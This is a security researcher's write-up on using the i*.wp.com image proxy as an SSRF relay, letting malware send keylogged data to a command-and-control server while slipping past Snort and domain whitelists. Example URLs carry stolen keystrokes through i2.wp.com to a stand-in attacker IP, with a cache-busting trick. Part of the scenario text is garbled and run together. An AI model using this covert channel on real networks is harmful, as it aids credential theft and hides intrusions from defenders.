


In this write-up I explore a possible Server-Side Request Forgery (SSRF) exploitation method that would allow malware to utilize it as a communication vector, this would make network-analysis harder and domain-whitelisting irrelevant as any domain with an SSRF vulnerability could be used as a communication channel.
Server-Side Request Forgery (SSRF) is a vulnerability wherein a legitimate server can be forced to send requests to hosts/domains with varying integrity. There are currently two types of widely-accepted SSRF vulnerabilities, one of which (general SSRF) allows attackers to forge a request, have the server execute it, and then see the response from the server's behalf - this means that attackers can query internal domains and exfiltrate sensitive information (most commonly, AWS keys) or even modify internal configuration hubs. The second type, however, is known as 'blind SSRF' - it allows attackers to craft a request that the server will execute, but it does not allow the server to clearly view the response (note that; in many cases - blind SSRF is used for internal port-scanning, making it dangerous). If I've explained this badly, PortSwigger provides a good explanation along with OWASP & Acutenix.
When malware is executed; there will often be an initial 'call-home' to the C2/CnC (command-and-control) server hosted by attackers (of course, this varies on a case-by-case basis as sophisticated actors will implement long sleeps before initial contact and some of their adversarial tools may not require CnC contact at all) - here is an example of a common scenario found in malware:

When antiviruses are unable to accurately detect a threat, network analysis is used as a last-resort detection method. By creating specific rules to detect malicious or malformed traffic, network administrators are able to detect an ongoing intrusion and respond appropriately. The most popular intrusion-detection-system (IDS) is, by far; 'Snort', Snort is described on their website as being:
The foremost Open Source Intrusion Prevention System (IPS) in the world. Snort IPS uses a series of rules that help define malicious network activity and uses those rules to find packets that match against them and generates alerts for users."
And:
With over 5 million downloads and over 600,000 registered users, it is the most widely deployed intrusion prevention system in the world.
The above quotes inspire a large degree of confidence in the IDS's capability to protect a network, but, as I'll explain below; bypassing such an IDS can be trivial with the use of SSRF.
As I've previously described, Snort is an open-source IDS, it uses predefined rules and heuristic network analysis to detect malicious traffic on a given network, anyone looking to research the project can download their predefined rules or view their source code on GitHub. pfSense however, is an open-source firewall (not limited to an IDS) designed to protect internal network components from external threats, Snort is available as a pfSense plugin which is how most people use it.
Here is an example of a Snort rule:
alert icmp 192.168.3.10 any -> any any (msg: "ICMP Attack"; sid: 000000001)
It alerts network administrators of any ICMP traffic originating from 192.168.3.10, to read more; read this article.
Snort rules can also come in the format of YARA rules e.g:
// Origin: See above hyperlink.rule ExampleRule{ strings: $my_text_string = "text here" $my_hex_string = { 00 01 01 08 20 0B } condition: $my_text_string or $my_hex_string}These rules are particularly effective in preventing malware downloads on an internal network.
Now that I've covered how SSRF and intrusion-detection-systems work, it might be clear how SSRF can be used to circumvent existing IDSes by abusing SSRF vulnerabilities in their whitelisted domains.
An example scenario includes the usage of a SSRF 'feature' (their words) in wp.com in order to circumvent blacklisted IPs or take advantage of wp.com's status as a whitelisted domain (if Snort has been configured to whitelist wp.com).
A company called Automattic owns many companies, among which, lies WordPress and Gravatar, an avatar hosting/managing/creating service that is currently widely adopted throughout the internet (most WordPress).
To make a long story short, Gravatar has an issue that extends tot he i*.wp.com subdomains, to test this - setup a local server that prints all requests to a console/table/file and execute curl "i2.wp.com/YOUR_IP/something.png" - you should notice how your output is now populated with a request from Wordpress' server, meaning that an SSRF vulnerability does exist.
When I reported this to Automattic a month ago, they said that it was an intended feature because
there's code & server side protection that disallows requests to internal servers.
*.wp.com (because they trust WordPress and want to save resources for intercepting potentially risky requests, not Gravatar uploads!)http://i2.wp.com/CnC_IP/KEYS_LOGGED containing all of the 50 characters intercepted by the key-logger.i2.wp.com falls under *.wp.com, a trusted domain.http://i2.wp.com/1.3.3.7/l|o|g|i|n|+|P|@|s|s|w|0|r|d|!| and recognize a breach.In this scenario, an attacker took advantage of the fact that wp.com was whitelisted, but the exact same impact could be demonstrated if the attacker's CnC IP had been listed on IP-Blacklisting sources and was blacklisted from Snort as the request from the client would have been send to i2.wp.com and not the blacklisted IP address, therefore bypassing network detection.
Below is a screenshot of my PoC for this communication vector, it is available on my GitHub.

(195.234.109.116 is a WordPress server's IP, not mine)There's not much to say about this issue really, communities should take SSRF seriously as it can be abused to degrade a website/server's reputation among peers, SSRF isn't just an attack vector for those attacking your company, but it is also one for malicious actors to attack others in an (as of right now) undetected way.
NOTE: For this to work (as you can see in my PoC) there's a cache-buster extension http://i**2.wp.com/CnC_IP/DATA/RANDOM_STRING_TO_AVOID_CACHED_REPLY.